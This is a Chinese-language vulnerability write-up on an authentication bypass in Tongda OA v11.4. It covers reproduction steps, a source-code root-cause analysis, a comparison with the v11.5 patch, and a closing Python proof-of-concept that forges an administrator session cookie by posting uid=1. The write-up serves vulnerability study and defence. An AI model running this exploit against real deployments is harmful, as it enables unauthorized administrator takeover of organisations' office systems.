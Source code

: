 ```yaml
---
title: 通达 OA Office Anywhere v11.4任意用户登录漏洞复现与原理详细解析（第二处）
date: 2020-12-19
---
```


## 漏洞概述

通达OA系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。 Office Anywhere采用基于WEB的企业计算，主HTTP服务器采用了世界上最先进的 Apache服务器，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。提供数据备份工具，保护系统数据安全。多级的权限控制，完善的密码验证与登录验证机制更加强了系统安全性。

通达OA官方更新了V11版本安全补丁，修复了任意用户伪造登录漏洞，该漏洞的操作难度低，危害程度大。未经授权的攻击者通过构造请求包实现用户登录，又由于UID是主键且步进为1递增，从而导致可以指定UID实现任意用户登录（admin的缺省UID为1）。
## 漏洞环境

官网：https://www.tongda2000.com/

下载：https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe

版本：通达OA V11.X<V11.5

测试系统： 

Windows 7 专业版 64位操作系统 

macOS11.0.1 （攻击机）

python3.7.5

## 漏洞验证
第一步：访问ispirit/login_code.php，在返回值中保存codeuid：{58AA7BF5-725C-F8EB-3324-BE17C4E8F6AA}

第二步：访问general/login_code_scan.php
修改如下：

```
GET请求改为POST请求
添加Content-Type
添加Content-Length
添加请求体codeuid={xxx}&source=pc&uid=1&type=confirm&username=admin
```



![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219101708128_5207.png)

这个请求一般会返回status 1

  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102012280_28610.png)

  第三步：访问/ispirit/login_code_check.php?codeuid={xxx}

  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102123533_12814.png)

  如果请求正常，会返回如下图所示数据 
  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102401024_13617.png)

第四步：访问/general/index.php，顺利登录后台，权限是系统管理员，实现任意用户登录
  ![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219102509925_13991.png)



## 漏洞原理

漏洞地址存在于general/login_code_scan.php，进入解密后的源码处查看代码，可以看到通过POST请求接收5个参数，然后存到数组里，uid可控，没有对uid进行任何校验，这就产生了漏洞
![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219104350520_5847.png)

这里会检测codeuid，如果codeuid存在并且正确会返回1

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219104600278_30979.png)

再后面就没有任何检测了，直接在返回包里返回status

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219105133157_30970.png)

漏洞点要发送5个参数，分别是codeuid，source，uid，type，username

* codeuid必须是实时获取到的，否则无法通过校验

* source只需填入pc、web或者mac其中之一（源码中做了判断,必须是这三个之一才会正常返回status）

* uid为1就是管理员权限，可以通过本地数据库查到，前面几篇博客都说明了，就不多说了。

* 最后并没有对type和username做检测
  

按理发请求的时候这两个任意值都是可以的，但是经过测试username可以是任意值，但是type必须是confirm，否则无法任意用户登录，那么这个type应该是有校验的，只不过不是在这个文件中，所以我们要找到这个校验处。
  校验很可能存在的位置就是下一个步骤，也就是访问/ispirit/login_code_check.php?codeuid={xxx}，找到源码进行查看。
可以看到15行对type进行判断

![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219170612652_23176.png)

  

如果type不是confirm就不会执行session操作，换句话就无法保存状态，伪造的管理员cookie也就无法生效了，后续直接访问后台就不会成功，所以type必须是confirm。



![](https://gitee.com/tutucoo/images/raw/master/uPic/20201219170917295_8923.png)



## 补丁分析

找到v11.5版本的general/login_code_scan.php文件，可以看到不再直接从UID参数中取UID了，而是通过P参数获取sessionid，再通过sessionid获取数据库中的UID，再通过UID等信息生成TOKEN，最后再通过TOKEN等信息生成缓存，这样就解决了UID可控的问题了

![image-20201219215830050](https://gitee.com/tutucoo/images/raw/master/uPic/image-20201219215830050.png)

![image-20201219221115596](https://gitee.com/tutucoo/images/raw/master/uPic/image-20201219221115596.png)

## 总结
该漏洞点存在于general/login_code_scan.php，需要传递5个参数，分别是codeuid、source、uid、type、username、其中codeuid需要发送ispirit/login_code.php请求获取，其他几个参数通过分析源码我们也都知道了，唯独还有/ispirit/login_code_check.php?codeuid={xxx}请求，不知道是从何而来，可能是通过黑盒测试，二维码扫描过程中抓到的吧，也就是个猜测，自己通过APP扫码登录出了点问题，就不再细说了。

## 附：POC
```python3
import json
import requests

def getSession(url):
    vulUrl = url+'/ispirit/login_code.php'
    res = requests.get(vulUrl)
    codeuid = json.loads(res.text)['codeuid']
    print(codeuid)
    confirmUrl = url + '/general/login_code_scan.php'
    data = {
        'codeuid':codeuid,
        'uid': int(1),
        'source': 'pc',
        'type': 'confirm',
        'username': 'admin',
    }

    res = requests.post(confirmUrl,data=data)
    status = json.loads(res.text)['status']
    print(status)
    if status == str(1):
        seesionUrl = url + '/ispirit/login_code_check.php?codeuid='+codeuid
        res = requests.get(seesionUrl)
        print('[*]cookie:'+res.headers['Set-Cookie'])
    else:
        print('[-]failed')


if __name__ == "__main__":
    getSession('http://xxxx/')
```
